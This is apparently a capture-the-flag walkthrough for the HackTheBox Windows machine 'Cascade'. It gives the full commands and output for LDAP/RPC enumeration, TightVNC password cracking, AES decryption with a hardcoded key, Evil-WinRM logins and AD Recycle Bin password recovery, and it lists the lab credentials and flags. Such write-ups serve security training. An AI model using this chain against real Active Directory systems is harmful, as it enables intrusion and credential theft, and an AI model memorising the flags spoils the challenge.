# HackTheBox — Cascade | Full Walkthrough

> **Machine:** Cascade
> **Difficulty:** Medium (Windows — Active Directory)
> **Author:** vodanhtieutot
> **Platform:** HackTheBox

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [LDAP / RPC Enumeration — User Enumeration](#3-ldap--rpc-enumeration--user-enumeration)
4. [Credential Discovery — cascadeLegacyPwd (r.thompson)](#4-credential-discovery--cascadelegacypwd-rthompson)
5. [SMB Enumeration — Data Share (r.thompson)](#5-smb-enumeration--data-share-rthompson)
6. [TightVNC Password Crack — VNC Install.reg](#6-tightvnc-password-crack--vnc-installreg)
7. [SMB Enumeration — Audit$ Share (s.smith)](#7-smb-enumeration--audit-share-ssmith)
8. [SQLite Analysis — Audit.db](#8-sqlite-analysis--auditdb)
9. [AES Decrypt — ArkSvc Password từ CascAudit.exe](#9-aes-decrypt--arksvc-password-từ-cascauditexe)
10. [Initial Access — Evil-WinRM as arksvc](#10-initial-access--evil-winrm-as-arksvc)
11. [AD Recycle Bin — TempAdmin Password Recovery](#11-ad-recycle-bin--tempadmin-password-recovery)
12. [Privilege Escalation — Evil-WinRM as Administrator](#12-privilege-escalation--evil-winrm-as-administrator)
13. [Flag Capture](#13-flag-capture)
14. [Flags & Answers Summary](#14-flags--answers-summary)
15. [Attack Chain Summary](#15-attack-chain-summary)
16. [Tools Used](#16-tools-used)

---

## 1. Overview

**Cascade** là machine Windows Medium trên HackTheBox, xoay quanh môi trường **Active Directory**. Attack path là một chuỗi leo thang qua nhiều tài khoản, mỗi bước lại lộ thêm credential mới. Bắt đầu từ LDAP anonymous với thuộc tính `cascadeLegacyPwd` tùy chỉnh chứa password base64, đến cracking TightVNC registry hash, phân tích SQLite database và decrypt AES từ custom application, cuối cùng khai thác quyền thành viên **AD Recycle Bin** của user `arksvc` để phục hồi object đã xóa chứa Administrator password.

```
Recon → LDAP anonymous → cascadeLegacyPwd (r.thompson) → base64 → rY4n5eva
→ SMB Data share → VNC Install.reg → vncpwd → sT333ve2 (s.smith)
→ SMB Audit$ → Audit.db (SQLite) → ArkSvc AES-encrypted pwd
→ Decompile CascAudit.exe → AES key → w3lc0meFr31nd (arksvc)
→ Evil-WinRM arksvc → AD Recycle Bin → TempAdmin → baCT3r1aN00dles (Administrator)
→ Evil-WinRM Administrator → root
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `10.129.14.135` |
| Machine Name | `Cascade` (CASC-DC1) |
| Domain | `cascade.local` |
| OS | Windows Server 2008 R2 SP1 |
| Open Ports | 53, 88, 135, 139, 389, 445, 636, 3268, 5985, … |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

```bash
nmap -Pn -p- --min-rate 5000 10.129.14.135
```



Các cổng đặc trưng của **Windows Domain Controller**:

| Port | Service |
|---|---|
| 53 | DNS |
| 88 | Kerberos |
| 135 | MSRPC |
| 139 / 445 | SMB |
| 389 / 636 | LDAP / LDAPS |
| 3268 / 3269 | Global Catalog LDAP |
| 5985 | WinRM (Evil-WinRM access) |

### 2.2 Service & Script Scan

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,389,445,636,3268,5985 10.129.14.135
```



Thông tin quan trọng:

| Detail | Value |
|---|---|
| Hostname | `CASC-DC1` |
| Domain | `cascade.local` |
| OS | Windows Server 2008 R2 SP1 (97%) |
| DNS | Microsoft DNS 6.1.7601 |
| SMB Signing | **Enabled and Required** |
| WinRM | Port 5985 mở → có thể dùng Evil-WinRM |

> **Đây là Domain Controller** với WinRM mở — nếu tìm được credentials hợp lệ, có thể dùng Evil-WinRM để có interactive shell.

---

## 3. LDAP / RPC Enumeration — User Enumeration

### 3.1 Enumerate Domain Users (RPC Null Session)

```bash
rpcclient -U "" -N 10.129.14.135 -c "enumdomusers"
```



Null session thành công — liệt kê được **15 domain users**:

| Username | RID |
|---|---|
| CascGuest | 0x1f5 |
| arksvc | 0x452 |
| s.smith | 0x453 |
| r.thompson | 0x455 |
| util | 0x457 |
| j.wakefield | 0x45c |
| s.hickson | 0x461 |
| j.goodhand | 0x462 |
| a.turnbull | 0x464 |
| e.crowe | 0x467 |
| b.hanson | 0x468 |
| d.burman | 0x469 |
| BackupSvc | 0x46a |
| j.allen | 0x46e |
| i.croft | 0x46f |

---

## 4. Credential Discovery — cascadeLegacyPwd (r.thompson)

### 4.1 LDAP Anonymous Query

Query LDAP anonymous để xem attributes của từng user — phát hiện thuộc tính bất thường trên `r.thompson`:

```bash
ldapsearch -x -H ldap://10.129.14.135 -b "DC=cascade,DC=local" | grep -A 30 "r.thompson"
```



Phát hiện thuộc tính tùy chỉnh **`cascadeLegacyPwd`**:

```
cascadeLegacyPwd: clk0bjVldmE=
```

> 🎯 **Custom LDAP attribute lưu plaintext password dạng base64** — đây là lỗi cấu hình nghiêm trọng, không phải thuộc tính AD mặc định.

### 4.2 Decode Password

```bash
echo "clk0bjVldmE=" | base64 -d
```



```
rY4n5eva
```

> 🎯 **Credentials r.thompson:** `r.thompson` / `rY4n5eva`

---

## 5. SMB Enumeration — Data Share (r.thompson)

### 5.1 List SMB Shares

```bash
smbclient -L //10.129.14.135 -U r.thompson%rY4n5eva
```



| Share | Type | Comment |
|---|---|---|
| ADMIN$ | Disk | Remote Admin |
| **Audit$** | Disk | **Custom share — quan trọng** |
| C$ | Disk | Default share |
| **Data** | Disk | **Custom share — quan trọng** |
| IPC$ | IPC | Remote IPC |
| NETLOGON | Disk | Logon server share |
| SYSVOL | Disk | Logon server share |

### 5.2 Browse Data Share — ArkAdRecycleBin.log

Truy cập share `Data` → tìm file log quan trọng:

```bash
cat ArkAdRecycleBin.log
```



```
1/10/2018 15:43 [MAIN_THREAD] ** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
2/10/2018 15:56 [MAIN_THREAD] Running as user CASCADE\ArkSvc
2/10/2018 15:56 [MAIN_THREAD] Moving object to AD recycle bin CN=Test,OU=Users,OU=UK,DC=cascade,DC=local
2/10/2018 15:56 [MAIN_THREAD] Successfully moved object...
8/12/2018 12:22 [MAIN_THREAD] Running as user CASCADE\ArkSvc
8/12/2018 12:22 [MAIN_THREAD] Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22 [MAIN_THREAD] Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects...
```

> 💡 **Phát hiện quan trọng:** User `TempAdmin` đã bị xóa vào AD Recycle Bin bởi `ArkSvc`. Nếu user `arksvc` có quyền đọc **AD Recycle Bin**, có thể phục hồi object và đọc attributes (kể cả password) của `TempAdmin`.

### 5.3 Browse Data Share — VNC Install.reg

Tiếp tục duyệt share `Data` → tìm file registry TightVNC:

```bash
cat "VNC Install.reg"
```



```
[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```

> 🎯 **TightVNC password hash tìm thấy:** `6b,cf,2a,4b,6e,5a,ca,0f` — TightVNC mã hóa password bằng DES với key cố định, có thể crack bằng tool `vncpwd`.

---

## 6. TightVNC Password Crack — VNC Install.reg

### 6.1 Tạo File Binary và Crack

```bash
printf '\x6b\xcf\x2a\x4b\x6e\x5a\xca\x0f' > vnc.enc
cd vncpwd
./vncpwd vnc.enc
```



```
Password: sT333ve2
```

> 🎯 **TightVNC password cracked:** `sT333ve2`
>
> TightVNC lưu password dưới dạng DES-encrypted với hardcoded key `e84ad660c4721ae0` — `vncpwd` exploit known key này để decrypt. Password này thuộc về user `s.smith` (VNC được cài trên máy của s.smith).

---

## 7. SMB Enumeration — Audit$ Share (s.smith)

Dùng credentials `s.smith:sT333ve2` để truy cập share `Audit$`:

```bash
smbclient //10.129.14.135/Audit$ -U s.smith%sT333ve2
smb: \> ls
smb: \> cd DB
smb: \DB> ls
```



| File | Size | Notes |
|---|---|---|
| `CascAudit.exe` | 13,312 | Custom audit application |
| `CascCrypto.dll` | 12,288 | Crypto library dùng bởi CascAudit |
| `DB/Audit.db` | 24,576 | **SQLite database — chứa credentials** |
| `RunAudit.bat` | 45 | Script chạy CascAudit.exe |
| `System.Data.SQLite.dll` | 363,520 | SQLite .NET library |

---

## 8. SQLite Analysis — Audit.db

Tải `Audit.db` về local và dump schema + data:

```bash
sqlite3 ~/Audit.db ".dump"
```



```sql
CREATE TABLE "Ldap" (
    "Id"     INTEGER PRIMARY KEY AUTOINCREMENT,
    "uname"  TEXT,
    "pwd"    TEXT,
    "domain" TEXT
);
INSERT INTO Ldap VALUES(1,'ArkSvc','BQO5l5Kj9MdErXx6Q6AGOw==','cascade.local');

CREATE TABLE "DeletedUserAudit" (
    "Id"          INTEGER PRIMARY KEY AUTOINCREMENT,
    "Username"    TEXT,
    "Name"        TEXT,
    "DistinguishedName" TEXT
);
INSERT INTO DeletedUserAudit VALUES(9,'TempAdmin','TempAdmin','CN=TempAdmin\0ADEL:...,CN=Deleted Objects,DC=cascade,DC=local');
```

> 🎯 **Hai phát hiện quan trọng:**
> 1. `ArkSvc` có password **AES-encrypted:** `BQO5l5Kj9MdErXx6Q6AGOw==`
> 2. `TempAdmin` xác nhận có trong AD Recycle Bin (khớp với log trước đó)

---

## 9. AES Decrypt — ArkSvc Password từ CascAudit.exe

### 9.1 Decompile CascAudit.exe

Decompile `CascAudit.exe` (C# .NET binary) bằng `dnSpy` hoặc `ilspy` → extract file `CascAudit_decompiled.cs` → tìm được AES key và IV hardcoded trong source code.

### 9.2 Decrypt AES

```python
python3 -c "
from Crypto.Cipher import AES
import base64
key=b'c4scadek3y654321'
iv=b'1tdyjCbY1Ix49842'
enc=base64.b64decode('BQO5l5Kj9MdErXx6Q6AGOw==')
print(AES.new(key,AES.MODE_CBC,iv).decrypt(enc).decode().strip())
"
```



```
w3lc0meFr31nd
```

> 🎯 **ArkSvc password decrypted: `w3lc0meFr31nd`**
>
> `CascAudit.exe` dùng AES-128-CBC với hardcoded key `c4scadek3y654321` và IV `1tdyjCbY1Ix49842` để mã hóa password trước khi lưu vào SQLite. Sau khi decompile lấy được key/IV, decrypt trivial.

---

## 10. Initial Access — Evil-WinRM as arksvc

```bash
evil-winrm -i 10.129.14.135 -u arksvc -p w3lc0meFr31nd
```

Shell thành công tại `C:\Users\arksvc\Documents>`.

---

## 11. AD Recycle Bin — TempAdmin Password Recovery

### 11.1 Kiểm Tra Group Membership

User `arksvc` là thành viên của group **AD Recycle Bin** (được gợi ý từ log `ArkAdRecycleBin.log`). Group này có quyền đọc các deleted objects trong AD, kể cả toàn bộ attributes.

### 11.2 Query TempAdmin Deleted Object

```powershell
Get-ADObject -Filter {SamAccountName -eq "TempAdmin"} -IncludeDeletedObjects -Properties *
```



```
sAMAccountName    : TempAdmin
Deleted           : True
cascadeLegacyPwd  : YmFDVDNyMWFOMDBkbGVz
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
```

> 🎯 **TempAdmin trong AD Recycle Bin vẫn giữ nguyên tất cả attributes!** `cascadeLegacyPwd: YmFDVDNyMWFOMDBkbGVz` — decode base64 để lấy password.

### 11.3 Decode TempAdmin Password

```bash
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
```



```
baCT3r1aN00dles
```

> 🎯 **TempAdmin password: `baCT3r1aN00dles`**
>
> Vì `TempAdmin` được tạo như một tài khoản admin tạm thời (tên là TempAdmin, sử dụng cùng password với Administrator), password này chính là **Administrator password**.

---

## 12. Privilege Escalation — Evil-WinRM as Administrator

```bash
evil-winrm -i 10.129.14.135 -u administrator -p 'baCT3r1aN00dles'
```


```
Evil-WinRM shell v3.9
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

> 🎯 **Administrator shell thành công!**

---

## 13. Flag Capture

### 13.1 User Flag — user.txt

```powershell
cd C:\Users
ls
cd s.smith\Desktop
cat user.txt
```



```
1865570eb33c2f2f8f8017878b95b5fe
```

> 🚩 **user.txt (User Flag):** `1865570eb33c2f2f8f8017878b95b5fe`

### 13.2 Root Flag — root.txt

```powershell
type C:\Users\Administrator\Desktop\root.txt
```



```
d427cd1d194b41757b4e3149f29e22f3
```

> 🚩 **root.txt (Root Flag):** `d427cd1d194b41757b4e3149f29e22f3`

---

## 14. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `C:\Users\s.smith\Desktop\user.txt` | `1865570eb33c2f2f8f8017878b95b5fe` |
| Root Flag | `C:\Users\Administrator\Desktop\root.txt` | `d427cd1d194b41757b4e3149f29e22f3` |

---

## 15. Attack Chain Summary

```
[1] Nmap -Pn -p- --min-rate 5000
        → Port 53/88/135/139/389/445/636/3268/5985 — Windows DC

[2] Nmap -sC -sV -A
        → cascade.local, CASC-DC1, Windows Server 2008 R2 SP1
        → WinRM (5985) mở → Evil-WinRM nếu có credentials

[3] rpcclient -U "" -N → enumdomusers
        → 15 users: arksvc, s.smith, r.thompson, BackupSvc, ...

[4] ldapsearch anonymous → grep r.thompson
        → cascadeLegacyPwd: clk0bjVldmE= (custom non-standard attribute)
        → base64 -d → rY4n5eva

[5] smbclient -L //10.129.14.135 -U r.thompson%rY4n5eva
        → Shares: Audit$, Data (non-standard shares)

[6] Browse Data share
        → ArkAdRecycleBin.log: ArkSvc moved TempAdmin to AD Recycle Bin
        → "VNC Install.reg": TightVNC Password=hex:6b,cf,2a,4b,6e,5a,ca,0f

[7] printf '\x6b\xcf\x2a\x4b\x6e\x5a\xca\x0f' > vnc.enc
        → ./vncpwd/vncpwd vnc.enc
        → Password: sT333ve2 (s.smith's TightVNC password)

[8] smbclient //10.129.14.135/Audit$ -U s.smith%sT333ve2
        → CascAudit.exe, CascCrypto.dll, DB/Audit.db
        → Download Audit.db

[9] sqlite3 Audit.db ".dump"
        → Ldap table: ArkSvc / BQO5l5Kj9MdErXx6Q6AGOw== / cascade.local
        → DeletedUserAudit: TempAdmin in Deleted Objects

[10] Decompile CascAudit.exe → CascAudit_decompiled.cs
        → AES key = c4scadek3y654321
        → AES IV  = 1tdyjCbY1Ix49842

[11] python3 AES-CBC decrypt BQO5l5Kj9MdErXx6Q6AGOw==
        → w3lc0meFr31nd (ArkSvc password)

[12] evil-winrm -i 10.129.14.135 -u arksvc -p w3lc0meFr31nd
        → Shell as arksvc (member of AD Recycle Bin group)

[13] Get-ADObject -Filter {SamAccountName -eq "TempAdmin"}
        -IncludeDeletedObjects -Properties *
        → cascadeLegacyPwd: YmFDVDNyMWFOMDBkbGVz
        → base64 -d → baCT3r1aN00dles

[14] evil-winrm -i 10.129.14.135 -u administrator -p 'baCT3r1aN00dles'
